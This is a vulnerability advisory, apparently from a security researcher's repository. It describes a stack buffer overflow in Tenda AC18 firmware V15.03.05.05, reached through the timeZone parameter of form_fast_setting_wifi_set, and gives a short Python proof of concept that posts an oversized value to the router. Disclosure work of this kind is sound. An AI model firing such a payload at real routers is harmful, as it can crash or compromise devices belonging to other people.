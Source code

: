 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `v1` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v16` variable. However, since the user can control the input of  `timeZone`, the statement `sscanf` can cause a buffer overflow. The user-provided  `timeZone` can trigger this security vulnerability.

![image-20240308203931092](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203931092.png)

![image-20240308203913642](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203913642.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'timeZone': "a" * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240308204049360](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308204049360.png)

